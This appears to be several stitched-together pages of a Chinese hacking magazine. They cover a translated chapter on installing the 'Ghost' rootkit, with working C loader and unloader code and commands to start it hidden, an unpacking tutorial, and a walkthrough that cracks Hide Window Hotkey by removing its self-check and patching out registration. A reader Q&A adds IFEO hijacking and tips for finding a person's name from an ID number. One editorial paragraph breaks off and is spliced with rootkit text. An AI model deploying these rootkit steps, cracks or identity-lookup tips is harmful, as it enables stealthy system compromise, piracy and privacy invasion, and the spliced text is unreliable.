这篇文章是《Professional Rootkits》原书中 “A Basic Rootkit” 主题的下半部分，在上半部分我们讨论了关于一个简单的 Rootkit 程序 Ghost 的编写，这部分我们将讨论如何编写 Rootkit 驱动的加载程序。

## ◎安装你的 Rootkit

驱动程序不像用户层的程序，后者在运行的同时进行加载，而驱动程序的加载和运行是分为两个不同阶段的。这样的两个阶段使得操作系统能在系统启动过程中先将驱动程序加载，但在晚些时才运行它。

我们知道，大多数的 Rootkit 被设计为伴随系统启动加载，且不允许卸载。但是我们仍可以使用需要时再进行的加载模式（demand start），允许在任何时候随意地加载或卸载驱动程序。这也是在驱动程序开发过程中的一个常用方法，我们将无需重启计算机就能反复地加载、调试、卸载和重建驱动。

为了便于起见，这个 Rootkit 将通过一个简单的程序来安装。编写这个程序，我们需要实现的只有打开服务控制管理器并将 Rootkit 作为一个内核驱动程序加载、卸载。加载和卸载一个驱动程序的过程如图1所示，相关文件及代码如下：

- 从本文您可以学到：
- 了解驱动程序加载和卸载的过程
- 使用程序进行加载和卸载驱动程序

```c
文件 SCMLoader.c

// Copyright Ric Vieler 2006
// This program will load c:\comint32.sys
// 程序将加载 c:\comint32.sys

#include <windows.h>
#include <stdio.h>
#include <process.h>

void main(int argc, char *argv[])
{
    SC_HANDLE sh1;
    SC_HANDLE sh2;

    sh1 = OpenSCManager(NULL, NULL, SC_MANAGER_ALL_ACCESS);
    if (!sh1)
    {
        printf("OpenSCManager Failed!\n");
        return;
    }

    sh2 = CreateService(
        sh1,
        "MyDeviceDriver",
        "MyDeviceDriver",
        SERVICE_ALL_ACCESS,
        SERVICE_KERNEL_DRIVER,
        SERVICE_DEMAND_START,
        SERVICE_ERROR_NORMAL,
        "c:\\comint32.sys",
        NULL,
        NULL,
        NULL,
        NULL,
        NULL);
    if (!sh2)
    {
        if (GetLastError() == ERROR_SERVICE_EXISTS)
            printf("DeviceDriver already loaded!\n");
        else
            printf("CreateService Failed!\n");
    }
    else
    {
        printf("\nDriver loaded\n");
    }
}
```

在前面的文章中对内核模式编程介绍过，对于已经掌握的朋友来说，这个用户层程序就显得相对简单了许多。如果你不想每次都……

图1　加载和卸载驱动程序的过程

图2　显示加载和卸载 Rootkit

为新的 Rootkit 重新编译加载以上程序的话，可以修改上述程序将 Rootkit 的路径作为参数传递。而对于目前的例子而言，我们力求做到极简，所以 Rootkit 的路径在上述范例中是直接使用了硬编码。

如果你已经有了能使用的编译环境，可以打开一个命令提示窗口并编译 SCMLoader.c。先确认已经配置过了开发环境，然后转到 SCMLoader.c 所在的目录下，输入以下命令编译程序：

```c
cl -nologo -W3 -O2 SCMLoader.c /link /NOLOGO user32.lib advapi32.lib
```

如果上述命令不能成功编译生成 SCMLoader.exe，你将需要调整你的编译环境。绝大多数的编译环境问题都能通过 VCVARS32.BAT 来解决，你可以在 C 或 C++ 的安装目录（一般在 C:\Program Files）中找到 VCVARS32.BAT，把这个文件拷贝到你的 Rootkit 目录下并在编译前运行它。一般来说它将会解决几乎所有的编译问题。

还有，不要尝试使用 DDK build environment 来编译一个用户层的应用程序。DDK 只能用来编译驱动程序，在 DDK 的开发环境中运行 VCVARS32.BAT 只会破坏 DDK 的编译环境。

如果 VCVARS32.BAT 不能解决问题，或没有找到它，那就要根据每一行的编译错误信息来确定主要问题。以“Can't find”开头的错误提示一般和全局环境变量 LIB 和 INCLUDE 相关，如“Can't find xxx.lib = LIB”和“Can't find xxx.h = INCLUDE”。你需要在 C/C++ 编译器的安装路径里找到那些错误提示里出现的文件，然后修改环境变量 LIB 和 INCLUDE，将那些文件的路径添加到其中。

## 关于如何修改环境变量

在“我的电脑”上按鼠标右键，在弹出的菜单中选择“属性”，再选择“高级”标签，在“高级”里选择“环境变量”按钮。现在应该能在下面的变量列表里（用户变量或是系统变量）找到 LIB 和 INCLUDE 变量。双击条目，然后将路径添加到变量值里，记得在每一个路径之间使用分号间隔开。当所有路径添加完，点击“确定”保存新设置。注意：已经打开的 CMD 窗口需要关闭后重新打开才能使用新设置的环境变量。在编译成功后我们可以把这些编译命令写入一个批处理文件里以便下次使用，这里取名为 buildSCMLoader.bat。

如果按照上面的步骤仔细操作，你将会发现在 Rootkit 成功加载之前还需要一个步骤：创建一个配置文件。

这个 Rootkit 除了将它作为 alternate data stream（交换数据流）隐藏起来之外，不会对这个配置文件作出任何操作，但是加载过程还是需要这个配置文件（没有该文件会加载失败，这个从之前的示例代码就能看出）。

在 CMD 窗口中键入命令“echo 123.456.789.012:01234 > c:\config32”来创建一个必要的配置文件，或者可以用自己的 IP 和端口 80（如 127.000.000.001:00080）为后面章节里建立实际的链接做准备。

无论什么内容，格式要求是一致的，目前实现的 Rootkit 程序 Ghost 不能处理像“127.0.0.1:80”这样不按指定格式而输入的字符串。

现在我们把 Rootkit 程序移动到 c:\comint32.sys，并运行 SCMLoader，最后在 CMD 中运行命令“net start MyDeviceDriver”。运行成功的话会看到“Driver loaded!”的字样，如图2所示。

如果你的 DebugView 开着的话，应该也会看到从 Rootkit 发出的 comint32 的调试信息，如图3所示。

图3　显示 DebugView 输出

现在恭喜你，Rootkit 程序已经成功加载运行了。加载程序 SCMLoader 在注册表中创建了信息，使 Rootkit 在机器启动时加载。但是这个 Rootkit 使用了 demand start 的参数初始化，所以它在手动执行“net start MyDeviceDriver”命令前不会启动，可通过删除“c:\comint32.sys”或删除“HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\MyDeviceDriver”键值来停止加载进程。

然而，我们不希望每次测试完一个新修改过的 Rootkit 都要手动地删除文件或注册表键值，所以需要写一个卸载工具，下面就介绍如何编写一个 SCMUnloader。

使用 SCMLoader 和 SCMUnloader 就可以很方便地测试我们的 Rootkit，需要说明的是，在第一次加载之后你可以删除配置文件 config32，因为 Rootkit 会在配置文件 config32 不在的情况下自动读取交换数据流隐藏的配置，而在第一次加载过后，隐藏的配置就已经存在了。

```c
文件 SCMUnloader.c

// Copyright Ric Vieler, 2006

// This program will unload c:\comint32.sys

// 这个程序将卸载 c:\comint32.sys

#include <windows.h>
#include <stdio.h>
#include <process.h>

void main( int argc, char *argv[] )
{
    SC_HANDLE sh1;
    SC_HANDLE sh2;
    SERVICE_STATUS ss;

    sh1 = OpenSCManager( NULL, NULL, SC_MANAGER_ALL_ACCESS );
    if ( !sh1 )
    {
        printf( "OpenSCManager Failed!\n" );
        return;
    }

    sh2 = OpenService(sh1,
        "MyDeviceDriver",
        SERVICE_ALL_ACCESS );
    if ( !sh2 )
    {
        printf("OpenService Failed!\n");
        CloseServiceHandle( sh1 );
        exit(1);
    }

    ControlService( sh2, SERVICE_CONTROL_STOP, &ss );
    if ( !DeleteService( sh2 ) )
        printf("Could not unload MyDeviceDriver!\n");
    else
        printf("Unloaded MyDeviceDriver.\n");
    CloseServiceHandle( sh2 );
    CloseServiceHandle( sh1 );
}
```

这里是编译命令：

`cl -nologo -W3 -O2 SCMUnloader.c /link /NOLOGO user32.lib advapi32.lib`

## 测试你的 Rootkit

第一个测试需要一个系统管理工具来列出在系统中活动的所有设备驱动，完成这个任务的标准工具叫 drivers.exe。这个工具像大多数的驱动开发工具一样，由微软操作系统资源工具提供，不带参数运行就能显示出一个运行中的设备驱动列表。加载和运行 MyDeviceDriver 不会在这个列表中出现，因为编写时使用了驱动隐藏的技术。

第二个测试将会查看交换数据流隐藏的配置是否已经添加到 C:\Windows\Resources。最简单的方法是删除 C:\config32，停止并重新运行驱动程序 MyDeviceDriver。

因为如果配置文件 config32 不存在，Rootkit 必须读取交换数据流当中隐藏的配置。之后，调试输出信息会提示“Reading config from hidden file.”，然后显示读取的 IP 地址和端口信息。

### 总结

这章我们对 Rootkit 的学习才刚刚开始，这里开发的这个 Rootkit 只会隐藏配置文件和它自己在操作系统设备驱动列表中的项。为了能使它秘密地工作，以后还有许多功能需要考虑，比如使用服务管理器创建一个注册表项来启动 Rootkit。现在这个 Rootkit 虽然使用了 comint32 名称来迷惑用户，但我们还有更好的隐藏方式。

一般来说，Rootkit 要求有一定隐藏文件、目录、设备驱动、进程和注册表项的能力，这几个技术也是我们学习的目标，而这里我们仅能简单地介绍一下。

现在我们的 Rootkit 程序仅有这样的功能：隐藏它的设备驱动项及配置文件。虽然这是很少的一部分功能，但这才刚刚开始。我们知道，迈出第一步是比较困难的，下一章将向 Rootkit 添加一个关键的功能模块：内核函数钩子（kernel function hooking）。

> （文中所涉及的相关代码及工具都已经收录在本期光盘）

编者点评：

由浅入深，看得出原作者的功底还是很扎实的。感谢本文的作者给我们带来了如此精彩的一篇译文，虽然在某些方面翻译得还不够精准。

# Cracker 10086

快到十一了，今年是国庆六十周年，各地、各行、各业都在为六十周年国庆活动做节目等等，以迎接很快来到的国庆节。尤其是今年的国庆，放假 8 天，是一件很爽的事情！这是因为中间还有一个中秋节的缘故，很多朋友由于工作或者学习等原因，基本在中秋节的时候很少和家人团聚，但是今年却比较特别，希望各位读者都能和家人一起迎国庆，庆中秋。

在这个非常有纪念意义的季节，我希望各位朋友身体安康，《非安全》的读者越来越多。另外，《非安全》的封面设计越来越有个性了，我经常捧着封面，久久都没能翻开杂志。我也实在太喜爱每一期的封面了，不知道有多少读者会和我有一样的想法呢？

在最后，我也希望投稿的作者能够认真地阅读杂志公布的投稿指南，因为经过长期的观察所得，很多作者的稿件都有这样或者那样的小问题，但是通过作者所留的联系方式却又未必能够及时地联系到，所以给审核稿件或者编辑稿件都带来了不必要的麻烦。纵观所有的问题，基本是由于未能够认真阅读投稿指南或者阅读后未能按照所规定的格式来投稿所致，所以这里还请各位作者在投稿的时候，请详细阅读理解一遍投稿指南吧！

- 1. UpKPEiDSign.V20090904

Fly 基本在每隔一段时间就放出他自己所收集的 sign 文件，这对于懒人来说是一件非常高兴的事情。假如你不想自己那么辛苦地去收集 sign，那么这个文件绝对是破解爱好者的最爱，因为 sign 文件的内容越丰富，在使用 PEiD 查壳的时候结果就越准确。

- 2. 补丁制作工具包

很多初学者在开始或者第一次破解成功的时候，往往比较难以压抑高兴的心情，总想与朋友分享点什么，所以这个补丁工具包现在你可以加载 Rootkit 来运行、停止或卸载。

# 软件破解入门系列二

## ——常用的脱壳方法

图：missviva [A.O.S.T]

从本文你可以学习到脱壳的几种方法。

大家好，我们又见面了，上一期给大家介绍了一些基础的破解知识，这一期我们就要给大家讲解一些基本的脱壳方法。好了，废话不多说，直接进入主题。

试看其功能，如果使用正常就表示脱壳成功。

看到这里，你是不是觉得用脱壳机脱壳是非常方便呢？但是壳的种类繁多，如果我们每遇到一个新壳就去找对应的脱壳机的话，这的确是一件挺麻烦的事情。不过，我们可以使用通用脱壳机来解决这个问题，下面就来介绍两种。

### 一、使用脱壳机脱壳

这是一个比较简单的脱壳方法，我们只需要通过 PEiD 得知软件被加上了哪一种壳，然后和对应壳的脱壳机进行脱壳即可。这里我们以 ASPack 这个壳为例，被加壳的程序是 Windows 自带的记事本。

首先老规矩，先用 PEiD 查壳，结果如图 1。好，现在我们已经知道程序被加上了什么壳，那么就用对应的脱壳机来脱掉它。运行 ASPack 这个壳的专用脱壳机，界面如图 2。

点击“Unpack”选择我们需要脱壳的程序，随后脱壳机就会自动帮我们把加壳程序的壳脱掉。然后点击“Run”，就可以运行我们已经脱壳完成的程序了。这时我们再用 PEiD 来扫描一下脱壳以后的程序，结果如图 3。

#### 1、PEiD

在之前的教程中，我们都是使用 PEiD 来进行查壳，其实它的强大不仅在于查壳，而是它拥有许多插件，对于我们破解程序也是十分有帮助的。

我们还是以刚才那个加了 ASPack 壳的记事本程序为例，在图 1 的界面中点击“扩展信息”旁的“=>”符号按钮来调出 PEiD 的插件菜单，然后选择“PEiD Generic Unpacker”，出现如图 4 的界面。

点击“OEP Detected”旁边的“->”符号按钮，插件就会帮我们找到程序的入口点。随后我们点击“Unpack”，插件就开始脱壳了。

脱壳完毕后会弹出一个对话框，询问我们是不是要重建输入表，我们选择“yes”即可。然后测试脱壳后的程序，如果可以正常运行并操作，就表示脱壳成功。

#### 2、RL!dePacker

这款脱壳机可以脱一百多种壳，软件的运行界面如图 5。点击“浏览”选择需要脱壳的软件，然后点击“查找 OEP!”，最后点击“脱壳”即可。

### 二、ESP 定律脱壳

讲完了脱壳机脱壳，下面给大家讲解使用 ESP 定律进行脱壳。它是利用堆栈平衡来进行脱壳的，那堆栈是什么呢？我们来一起了解下：

> “堆栈都是一种数据项按序排列的数据结构，只能在一端（称为栈顶，即 top）对数据项进行插入和删除。堆和栈其实是两种不同的数据结构，堆的顺序是随意的，而栈的顺序是先进后出。虽然堆和栈还是有很大的区别，但是由于历史的原因，所以我们还是连着称呼它们。”

看了上面这段话我们可以知道，堆和栈其实是两个不同的概念，我们现在所说的堆栈先进后出，其实说的是栈的概念。我们可以把堆栈想象成一个碗柜，最先放进去的碗总是最后被取出来。进栈和出栈这两个操作就可以理解为放碗和拿碗。

使用 ESP 定律几乎可以搞定所有的压缩壳以及部分加密壳，这是一个非常好用的脱壳方法。好了，我们一起来动手操作一下吧。

图6　OD 标题栏

首先用 OllyDbg 打开我们需要脱壳的记事本程序，请注意 OD 的标题栏，如图 6。

这就表示我们现在处于记事本这个程序的领空之中。那么什么是领空呢？我们来一起了解下。

> “所谓领空，实际上是指：在某一时刻，CPU 的 CS:IP（EIP）所指向的某一段代码的所有者所在的区域。”这个说法比较专业一点，对于初学者来说，我们也可以简单地把程序的领空理解为程序自己的地盘。

> **小提示：** 如果在调试软件的时候，发现我们处在系统模块的领空中时，最好不要随意修改，不然的话有可能会把系统给弄坏。

了解了领空的概念后，下面就开始使用 ESP 定律进行脱壳了。我们首先打开程序，然后按快捷键 F8 单步执行一下，此时会发现 OD 右边的寄存器窗口中的 ESP 值变成了红色。我们选中那个值，按鼠标右键，选择“跟随到数据窗口”，此时 OD 左下方的数据窗口如图 7。

图7　OD 数据窗口

我们选中数据窗口中前面 4 个字节，按鼠标右键，依次选择“断点”－“硬件访问”－“字”，这样就下好了一个硬件断点；或者我们在 OD 的命令行窗口中输入命令“hr ESP”也可以。

我们可以简单地把断点理解为在程序的运行过程中设置了一个障碍，程序一运行到断点处就会停下来，这样就方便我们更好地来调试程序。

我们按 F9 让程序运行起来，此时 OD 的反汇编窗口如图 8。我们 F8 单步走到第二个 retn 这里，然后再按一下 F8 就飞向光明之巅，来到了程序的 OEP（Original Entry Point，入口点）了，如图 9。这里我们需要注意，用不同语言编写的软件，它们的入口点特征是不一样的。（编程注：因为篇幅的关系，OEP 入口特征代码展示文件已收录到杂志光盘所对应的本文文件包中）

图8　OD 反汇编窗口

图9　OEP 代码处

现在看到这些代码可能大家有些不知所云，不过随着我们破解经验的积累，以后会渐渐熟悉这些入口特征的。

到达入口点之后，我们在反汇编窗口点击鼠标右键，选择“用 OllyDump 脱壳调试进程”，再点击“脱壳”，之后给脱壳后的文件取个名字进行保存，这样就完成了脱壳工作。接着就可以用之前的方法来验证一下是否脱壳成功。

### 三、使用脚本脱壳

在 OD 中，我们还可以使用各种脚本来进行脱壳。网上有许多各种壳对应的脱壳脚本，这些脚本都可以极大地方便我们来脱各种壳。

这里我们就以 ASProtect 这个壳为例来进行讲解。老规矩，首先用 PEiD 查壳，显示为“ASProtect 2.1x SKE -> Alexey Solodovnikov”。我们再用 PEiD 的插件 VerA 0.15 进一步查看一下，显示为“Version: ASProtect 2.11 SKE build 03.13 Release [1]”。

了解到底是哪一种壳之后，我们用 OD 载入程序，依次选择“插件”－“HIDE OD”－“HIDE”，将我们的 OllyDbg 隐藏起来。然后再选择“插件”－“OdbgScript”，选择 VOlx 大侠编写的 ASProtect 脱壳脚本，OD 就会自动为我们进行脱壳了。脚本运行完成后会跳出如图 10 的对话框。

图10　脚本提示

我们按 ALT+L 打开 OD 的记录窗口，这里需要记录以下几个数据：IAT 的相对地址、IAT 的大小和 OEP 的相对地址。这些数据将在后面进行修复时需要用到，如图 11。

图11　脚本运行记录

我们打开 LoraPE，选择要脱壳程序的进程，点击右键，选择“修正镜像大小”，然后在右键菜单中选择“完整转存”。此时我们运行那个脱壳程序会跳出如图 12 的错误提示信息。

图12　dump 后没修复的提示

下面我们就要用输入表修复工具 ImportRec 来进行修复工作了。打开 ImportRec 并选择要脱壳程序的进程，在下面的“IAT 需要的信息”中分别填上我们在 OD 记录窗口中记下的数据，填好以后如图 13。填写完毕以后我们点击“自动搜索 IAT”，再点击“获取输入表”，此时在 Import Rec 中会显示已找到的输入表函数，如图14。

这里显示全部为真，那我们就可以直接点击“修复抓取文件”，再选择刚才 LordPE 修复生成的文件，这样修复工作就完成了。


这次我们讲解了三种不同的脱壳方法，其实远远不止这几种。我们在平时进行脱壳练习时，要自己多多动手，这样才能真正掌握好脱壳这门艺术。好了，下一次会给大家讲解爆破的方法，休息一下眼睛吧。

【文章所涉及到的目标程序已收录在光盘中】

> 编者点评：
> 对于初学脱壳的朋友来说，这是一篇很好的入门教程，希望各位读者能够打下扎实的基础，为日后进入更高深的脱壳知识学习而做好准备。

# 爆破 Hide Window Hotkey 2.5

# 脱壳、去自校验和破解

图 obaby

- 从本文你可以学到：
- 爆破的方法
- 如何去除自校验

在游荡了一年之后，如果不出意外，可能就得去上班了。这一年经历了太多太多，不知道该怎么说，到了现在内心充满着痛苦和无奈。现实一次次地把我逼到绝境，面对的是一次次的失败。我说不出内心的那种感觉，反正就是很痛苦，所以写出来，算是发泄吧。如果文章发表了，编辑感觉这段文字太多余那就删除吧。

下面开始我们的正题，目标程序：Hide Window Hotkey 2.5，Solodovnikov，如图1。

这是一个压缩壳，用 ESP 定律脱壳就可以了。直接用 OD 载入，会提示是否继续分析代码，选择“否”，如图2。

OD 会中断在程序入口点，单步 F8 一次，在寄存器窗口中选中 ESP，按鼠标右键选择数据窗口中跟随。选中数据窗口的前四个字节，下硬件访问断点（Word），具体操作如图3。

然后 F9 运行程序，OD 会中断在下面的代码处：

```asm
005A03B0   75 08            jnz short HideWind.005A03BA
005A03B2   B8 01000000      mov eax,1
005A03B7   C2 0C00          retn 0C
005A03BA   68 B8B04C00      push HideWind.004CB0B8
```

## 一、脱壳

先用 PEiD 查壳，显示信息为：ASPack 2.12 -> Alexey。

此时删除所有硬件断点，如图4。

按 F8 单步往下走，走过 Retn 后就到了程序入口点了，如图5。

此时就可以用 LordPE 脱壳了，运行 LordPE 并选中要脱壳的进程，按右键选择“Dump Full”，将内存镜像保存到磁盘，如图6。


下面来修复 IAT，运行 Import REC，在 OEP 处填入程序的入口点偏移，此处为 CB0B8。关于程序的 OEP，可以用 OD 的脱壳插件得到，运行插件中的“OllyDump”就可以得到程序的 OEP 了。此处为用 EIP 修正 OEP，也就是 CB0B8，如图7。

将得到的值填入 Import Rec 的 OEP 中，点击“IAT Auto Search”（自动搜索 IAT），然后点“获取输入表”。在得到输入表后删除无效的指针，这里的数据都是有效的，就不操作了。


最后来修复脱壳的文件。点“修复抓取的文件”，选择刚才抓取的 Dump.exe 进行修复，如图8。

这样脱壳修复就完成了，下面进行第二步，去自校验。


## 二、去自校验

对脱壳后的程序进行双击运行，发现一闪就消失了，这个不是脱壳的问题。由于程序有自校验功能，所以当运行时检测到被修改之后就自动退出。

用 OD 载入脱壳修复后的程序 dumped_.exe，发现程序退出会调用 ExitProcess 这个系统 API 函数，那么我们就对这个函数下断。

在 OD 的反汇编窗口中，按右键选择“搜索”->“所有模块间的调用”，如图9。


这样就可以打开系统 API 的调用列表了。找到 ExitProcess 函数，对函数下 F2 断点，F9 运行程序，会中断在如下代码处：

```asm
004C4B8B    .  3D 20A10700      cmp eax, 7A120
004C4B90    .  7E 15            jle short dumped_.004C4BA7
004C4B92    .  8D85 ACFEFFFF    lea eax, dword ptr ss:[ebp-154]
004C4B98    .  E8 3FEF3FFF      call dumped_.00402DCD
004C4B9D    .  E8 62DDF3FF      call dumped_.00402904
004C4BA2    .  E8 49F9F3FF      call dumped_.00404F40
```


由上面的 jle 跳转可以知道，想不让程序运行时退出，需要让 004C4B90 行的跳转实现。通过对上面代码的跟踪分析，得知这个是对文件大小的校验，对比一下脱壳后的文件与原文件的大小就可以知道了，如图10。

我们脱壳后程序大小已经超过了 1M，而没有脱壳的程序只有不到 500K。当文件大小超过 7A120（十六进制）时，程序会自动退出。这个地方可以将 jle 修改为 jmp，也可以将 7A120 修改成一个大得多的数值，只要比脱壳后的文件大小值大就可以了，我这里修改成 0FFFFFFF。

接着修改 004C4B8B 行为 `cmp eax, 0FFFFFFF`（这里需要注意下，不能修改为 FFFFFFFF，因为十六进制数据如果是字符串开头的，前面第一个字符必须为零，否则在 OD 中会报错），然后保存修改后的文件为“去掉自校验.exe”。现在再测试一下程序，可以正常运行了。下面开始最后一步，对程序的爆破。


## 三、程序破解

用 OD 载入去掉自校验的程序，直接 F9 运行，在出现要求注册的窗口之后点 OD 的暂停按钮，或按键盘上的 F12，然后打开堆栈调用窗口，快捷键 Ctrl+K，如图11。

双击第二行跟入到汇编窗口，找到程序段头，在代码头下 F2 断点，如图12。

重新载入程序，F9 直接运行，注意观察堆栈窗口。OD 中断后在堆栈窗口的第一行按鼠标右键选择在反汇编窗口中跟随，来到了调用这段子程序的代码处。

找到这一段程序的段头，下 F2 断点，这时删除上次设置的断点。设置好断点后重新载入程序，如此重复进行，直到在反汇编窗口中跟随出现如下的代码：

```asm
004C51AA    |.  E8 5DF8F3FF      call 去除自校.00404A0C
; 程序关键 Call
004C51AF    |.  75 1C            jnz short 去除自校.004C51CD
; 关键跳
004C51B1    |.  33D2             xor edx,edx
004C51B3    |.  8B83 A8030000    mov eax,dword ptr ds:[ebx+3A8]
004C51B9    |.  E8 BA40FAFF      call 去除自校.00469278
004C51BE    |.  33D2             xor edx,edx
004C51C0    |.  8B83 A4030000    mov eax,dword ptr ds:[ebx+3A4]
```

这里简单地说下这么操作的原理：程序都是一层层调用的，要想知道到底是如何调用的这个子程序，必须要返回到主程序的“领空”。OD 在每次中断后堆栈窗口都会记录程序的调用来源，在子程序执行完毕后会返回到主程序，这也就是堆栈窗口的第一行显示回到某一个地址的原理了。

另外主程序在调用子程序的时候必然会经过一次判断，可能是用户的操作，也可能是其他的一些操作，比如注册验证等，主程序会对用户或者其他的操作做出不同的反应。

这个实例就是根据注册码的正确或错误进行调用子程序，如果注册码错误则调用注册码对话框，如果注册码正确则调用主程序的主窗体，这就是我们一层一层循环往回找的原因了。

在明白这个原理之后，程序的修改也就简单了，只需要跳过注册窗口就行了，直接调用程序的主窗口。在程序段开始处下 F2 断点，重新载入程序。对这段程序进行反复跟踪可以发现程序的关键跳在 004C51AF 这一行，如果这个跳转了就会出现程序注册窗口。程序的关键 Call，也就是上面 004C51AA 行的这个 Call 了。如果想爆破程序不出现注册窗口，只需要让这个跳转失效就可以了。

最简单的修改方法就是把 004C51AF 这一行直接 NOP 掉，把这行 NOP 掉后保存修改的程序，重新运行下，可以发现要求注册的窗口消失了，并且程序菜单中的注册也没有了，如图13，大家可以与图14进行比较。


## 四、后记


对于这个程序的爆破费了很多周折，从网上也没找到相关的资料。网上只有这个东西的序列号，没有破解版，程序的相关注册信息是保存在注册表中的，如图15。

对于软件的爆破我也想了很多不同的办法。程序读取注册表用的 API 函数是 RegQueryValueExA，而软件对于这个函数的调用是很多的，下断之后不容易分析，跟踪多次也没有发现关键的地方。可能是自己水平不够吧，在注册的时候虽然有错误提示，但是却没有跟踪到注册码。

另外需要说明下，就算把 Message 对话框爆破了使程序注册成功，但程序在重新启动时还是会进行验证。也就是说，通过对注册码对话框进行爆破是无效的。

虽然只是一个小程序，安全性却做得相当不错，壳的强度不大，但是程序的自校验破解需要一定的基础。另外，程序的注册码爆破由于并没有明文比较，在爆破上也增加了一定的难度。程序的重启验证则是爆破程序的最大障碍，整体而言，软件的安全做得还是不错的。

另外，如果有人追到了注册码，欢迎和我交流。好了，文章就到这里，有什么问题欢迎到“黑手”论坛（www.nohack.cn/bbs）和我交流。

> 【文章所涉及到的目标程序已收录在光盘中】

### 编辑点评：

本文的最大亮点在如何去掉自校验，这是初学者经常会碰到的事。去掉自校验的方法有很多，本文只提到其中的一种，当然，不同的校验是需要不同的方法去处理的。在编辑本文的时候，遇上了一些小问题，比如作者写完之后并没有检查自己写的这篇文章，这是一个弊端，希望作者能够改正一下。


# Q&A


Q：怎样才可以在自己的电脑上限制别人的 QQ 号上机呀？

A：关于限制程序运行的问题，可以说是见仁见智，关键看选取的方法和策略。如果是从系统方面着手，那么可以利用组策略限制程序规则，具体操作为：“计算机配置”→“Windows 设置”→“安全设置”→“软件限制策略”。

当然，你也可以把文件夹设置为只读状态，这样可以导致用户数据无法写入而无法登录。甚至有文章提到过建立一个 ws2_32.dll 文件夹导致程序无法启动，当然这也是病毒常用的技术。

我们也可以借鉴一下 AV 终结者采取的 IFEO 映像劫持，通过注册表 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options` 定义 Debugger 参数即可达到屏蔽软件启动的作用。这种方法的好处是建立两个 reg 文件就能分别达到屏蔽和解锁的作用。

而大多数公司则采取协议或者端口屏蔽，例如屏蔽常规的 4000 端口以及通过修改 HOSTS 屏蔽腾讯的验证服务器，但是这种方法现在实用性不强，因为 QQ 的网络策略更为丰富了。

我建议你可以安装一个绿色版本的 QQ，写入到一个多级或者隐藏目录，需要的时候通过“运行”直接调用程序。据说有第三方软件可以达到限制 QQ 登录的效果，总之方法是无穷无尽的，关键是你的选择和思路的拓展。

本贴地址：http://www.nohack.cn/bbs/thread-105365-1-2.html

Q：我最近一直在看《精通脚本黑客》，自己在 Win2003 里安装 PHP 时出现一个问题，按照书里面说的，装 PHP 的最后一步就是对数据库的设置。我完全按照书里面说的设置进行，可是在自己打开 localhost/test.php 时，就是找不到 mysql 和 mysqli。

A：如果你的 phpinfo 能够成功执行，说明 Web 服务器和脚本支持已经完成。没有找到 mysql 和 mysqli，则说明你的 MySQL 数据库没有正确安装，建议你按照作者的指导认真安装一次。其实对于 PHP+MySQL+Zend 的支持，分开安装无可厚非，不过现在也有很多 AMP 的套装程序，即可轻松完成上述程序的搭建工作，我推荐使用 PHPNOW。它采取批处理模式进行安装、配置以及卸载，自带了 phpMyAdmin 以及对其他脚本的扩展支持，非常值得个人用户作为平台架设和脚本调试之用。

本贴地址：http://www.nohack.cn/bbs/thread-105355-1-2.html

Q：我知道一个人的身份证号码，有没有能查询姓名的网站或者软件？我在网上找了很多查询方法，一般只能查出归属地。

A：现在常规的身份证查询网站都只能根据身份证号码查询出归属地和生日信息，当然这些信息通过号码可以完整地反查出来，但是通过身份证号码想得知该号码的所有者姓名，的确不是易事。http://qq.ip138.com/idsearch/ 上有一个身份证核实对比软件，输入身份证号码后会验证姓名和手机号码，从而反映其实名信息。我没有试验输入错误姓名后通过手机验证是否能返回真实信息，这个需要 5 块钱，有需要的朋友可以测试一下。

当然，除此之外，方法不是没有，具体在于你对这个人的其他信息的掌握，例如现在的交友网站和招聘网站等，往往需要填写用户身份证号码。你如果能够获取他的个人 Email 或者手机号码，不妨可以通过搜索引擎尝试，兴许能找到他的真实姓名。如果你有条件，可以从公安部门获取，当然你的目的必须合法。

本贴地址：http://www.nohack.cn/bbs/thread-105304-1-2.html

Q：我的 U 盘估计是中毒了，可是用金山杀毒总是提示没有病毒存在。用专业的 U 盘杀毒软件杀过后，电脑显示没有毒，但是再次与电脑相连后病毒又出现了。我格式化了很多次，没用。那些带病毒的文件夹刚一删除又一次出现一次，郁闷！文件夹是 .exe 的，我保存的文档明明是保存上了，但是有时打开这个文档不显示任何东西。

A：这种是一种很明显的伪造病毒，通过修改注册表达到无法查看隐藏及系统文件，并且隐藏文件的扩展名，然后将木马自身伪装成文件夹图标，定义为 U 盘里已存文件名。这样即使电脑插入 U 盘后避开了 AUTORUN 自动运行，也能达到交叉感染的目的。这种类型的“摆渡”病毒据我所知是可以通过 USBCleaner 这款程序查杀并修复的。

你的文件可能并没有消失，而是通过病毒隐藏了，并且感染病毒后你是无法通过文件夹选项修复的。你当然可以使用 attrib 命令修改 U 盘下被隐藏的文件属性，但是为了治标治本，建议你重新安装系统并清理逻辑分区下的 autorun 病毒。

系统重装后双击其他盘符或者通过“资源管理器”调用的方法都是感染的，要从地址栏下拉列表中或者用 start! 命令启动，然后通过手工或者工具进行 U 盘病毒的清理。

至于杀毒软件无法查杀的病毒，并非杀毒软件无能，而是病毒库里并没有包含此类特征定义，所以个人掌握必要的安全概念远比装杀毒软件的意义更重大。

本贴地址：http://www.nohack.cn/bbs/thread-105164-1-4.html

Q：我想问的是，大家知不知道如何搭建 ASP 服务器？为什么我成功搭建 ASP 服务器，在自己的网址上一测试 ASP 木马无法运行？ASP 木马运行需要怎么样的环境，能解说一下吗？

A：在 XP 下用 IIS 5.1 建立 Web 服务器往往会出现各种各样的症状，例如路径无法匿名访问或者是脚本不能解析，建议你通过虚拟机或者双系统模式安装一个 Windows 2003，系统已经集成了 IIS 的安装。其实可以推荐你采用基于 NETBOX 内核的小旋风 ASP 服务器等软件来搭建支持 ASP 的平台，这样就可以方便地在随时调用的情况下进行绿色安装。而你所谓的 ASP 木马无法运行，导致的因素很多，个人感觉判断一个 ASP 脚本是否具备执行功能，不是通过 WebShell 进行判断的，例如你可以写入 `<%response.write "test!"%>` 测试脚本函数是否运行成功。

本贴地址：http://www.nohack.cn/bbs/thread-104945-1-5.html

Q：看了《精通脚本黑客》一书，不明白第 25 页里讲的“cache:关键字、define:关键字、info:关键字、related:url”是什么意思？请高手详细解答，谢谢。

A：《精通脚本黑客》确实是一本不可多得的好书，内容很充实也很详细，该同学所提的问题出现在该书的 Google Hack 章节中。

“cache:关键字”顾名思义，在 Google 语法中提供搜索缓存的功能。因为 Google 庞大的服务器为每个网站上的 Web 文档建立了缓存页面，我们可以很方便地通过 cache 关键字找到该网站被 Google 收录的缓存页。

